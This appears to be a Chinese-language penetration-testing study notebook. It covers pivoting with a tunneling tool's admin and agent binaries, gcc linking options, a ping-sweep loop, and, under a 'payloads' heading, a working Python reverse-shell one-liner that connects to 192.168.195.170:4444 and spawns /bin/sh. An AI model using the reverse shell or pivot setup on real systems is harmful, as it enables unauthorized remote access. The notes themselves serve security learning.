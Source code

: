     在GitHub上下载release版本的，admin开头的是在本机运行，agent开头是在内网选择的代理的主机上运行的。具体使用命令，可以通过命令的提示来执行，但是注意（一定要选择一个正确的，符合主机架构的版本，不是都要执行。只选一个就可以了）

    ![image-20230516000841296](http://image.cchl.fun/kali_image/image-20230516000841296.png)
    
    1. ./admin_linux_x64 -lport 9999
    
        本地选择适合本机系统的的admin开头的脚本，同时指定监听端口
    
    2. ./agent_linux_x64 -rhost 192.168.195.170 -rprot 9999
    
        这是在靶机上执行的，需要自己上载。来指定反连的ip和端口

## 其他

### Gcc

1. what?

    C语言的 一个编译器

2. 具体实例：

    1. `gcc -o name c_code.c`：  name编译后的文件名，c_code.c需要编译的c文件

    2. `gcc -o name c_code.c  -Ldir /tmp/csoc.so` ：

        -`Ldir` 选项用于指定编译器在 `dir` 目录中查找库文件，它告诉编译器将目录 `dir` 添加到链接器的库搜索路径中。如果源代码中包含了对库函数的调用，链接器就可以在指定的目录中查找并链接相应的库文件。这个选项通常与 `-l` 选项一起使用，例如 `-L/usr/lib -lmysqlclient` 表示在 `/usr/lib` 目录中查找 `libmysqlclient.a` 或 `libmysqlclient.so` 库文件并链接到程序中

# 相关payload

## 远程执行python自带库的payload来反弹。

<a id='chen'>语法说明</a>

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.195.170",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

## bash脚本

```bash
for i in $(seq 1 10); do ping -c 2 172.17.0.$i; done
```

​     	[==返回原位置==](#back2)	

是bash脚本语言，用于linux中；

1. do:是用来标记循环的开始，和done相呼应。循环之间的命令。

2. seq:seq是用于打印一些列的数值`seq [选项]... 首数 增量值 尾数`其中有些是可以省略的。`seq` 命令本身不能直接生成数组，但可以通过 `$(seq ...)` 结合 bash 的命令替换功能，将 `seq` 生成的数列作为一个数组赋值给变量。
